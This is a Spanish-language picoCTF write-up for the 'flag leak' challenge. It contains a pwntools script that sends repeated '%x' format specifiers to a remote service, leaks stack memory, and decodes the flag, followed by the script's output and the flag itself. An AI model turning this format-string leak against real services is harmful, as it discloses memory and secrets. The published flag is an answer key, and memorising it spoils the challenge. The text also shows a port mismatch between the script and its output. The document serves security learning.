 # flag leak

## Objetivo.
Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/93/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/93/vuln.c). And connect with it using:`nc saturn.picoctf.net 52458`

## Solución.

**Con el siguiente script obtendremos la bandera** 

```
from pwn import *

s = remote("saturn.picoctf.net", 52458)

s.recv()
s.send(b"%x" * 200) # enough to fill the whole buffer
s.recvuntil(b"- \n")
leak = s.recv()
leak = leak.split(b"%x"[::-1].hex().encode("ascii"))[-1]

for i in range(0, len(leak), 8):
    flag = bytes.fromhex(leak[i:i+8].decode("ascii")).decode("ascii")[::-1]

    print(flag, end = "")

    if flag.endswith("}"):
        break

print()
```

**Salida**
```
[+] Opening connection to saturn.picoctf.net on port 55134: Done
picoCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}
[*] Closed connection to saturn.picoctf.net port 55134
```

**Bandera** picoCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}

## Notas opcionales.

## Referencias.
